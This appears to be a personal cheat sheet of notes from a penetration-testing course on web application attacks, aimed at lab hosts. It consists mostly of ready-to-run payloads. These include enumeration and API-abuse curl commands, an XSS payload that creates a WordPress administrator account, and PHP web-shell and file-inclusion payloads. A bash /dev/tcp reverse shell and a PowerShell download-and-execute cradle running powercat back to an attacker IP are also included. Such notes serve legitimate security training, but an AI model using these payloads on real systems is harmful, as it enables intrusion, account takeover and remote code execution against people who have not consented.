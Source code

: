 
# Enumeration

Fingerprint Web Servers with Nmap

```shell
sudo nmap -p80 -sV 192.168.50.20
sudo nmap -p80 --script=http-enum 192.168.50.20
```

[https://www.wappalyzer.com/](https://www.wappalyzer.com/)

```shell
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

Simply enter **about:config** in the address bar. Firefox will present a warning, but we can proceed by clicking _I accept the risk!_. Finally, search for "network.captive-portal-service.enabled" and double-click it to change the value to "false". This will prevent these messages from appearing in the proxy history.

```shell
cat /etc/hosts

.....
192.168.50.16 offsecwp
```

```shell
cat /usr/share/wordlist/rockyou.txt
```

```shell
echo "{GOBUSTER}/v1\n{GOBUSTER}/v2" > pattern.txt

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern.txt

curl -i http://192.168.50.16:5002/users/v1

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

curl -i http://192.168.50.16:5002/users/v1/admin/password

curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}' --proxy 127.0.0.1:8080
```

# XSS

FireFox Console
```
CTRL + SHIFT + K
```

XSS Payloads:
```
< > ' " { } ;
```

The Secure[3](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/basic-xss-44524#fn-local_id_2351-3) flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

The HttpOnly[4](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/basic-xss-44524#fn-local_id_2351-4) flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

```JavaScript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

```JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

[JS Compress](https://jscompress.com/)

```JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,...,115,41,59))</script>" --proxy 127.0.0.1:8080
```

# Directory Traversal

```powershell
C:\Windows\System32\drivers\etc\hosts
```

Internet Information Services (IIS)
```Powershell
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

Try both
```
/..
..\
without C:\
```

XAMPP Apache logs on Windows
```Powershell
C:\xampp\apache\logs\access.log
```


PHP Command Injection One Liner
```PHP
<?php echo system($_GET['cmd']); ?>


../../../../../../../../../var/log/apache2/access.log&cmd-ps


bash -c "bash -i >& /dev/tcp/[remote.attacker.ip]/4444 0>&1"
```

## PHP Wrappers

```shell
curl http://mountaindesserts.com/meteor/index.php?page=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

echo "PCFE...K==" | base64 -d
```

When cannot poison a local file with PHP Code, use the **data://** php wrapper:
```shell
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
the **data://** wrapper will not work in a default PHP installation. To exploit it, the [_allow_url_include_](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/file-inclusion-vulnerabilities-44691/php-wrappers-44647#fn-local_id_382-7) setting needs to be enabled.

## Remote File Inclusion (RFI)

Kali included web shells:
```shell
ls /usr/share/webshells/php/

cat simple-backdoor.php

python3 -m http.server 80

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"```

## Command Injection

Determine if our commands are executed by PowerShell or CMD
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Powercat is a PowerShell implementation of Netcat included in Kali
```shell
cat /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1
```
**-c** to specify where to connect, **-p** for the port, and **-e** for executing a program.
```Powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```

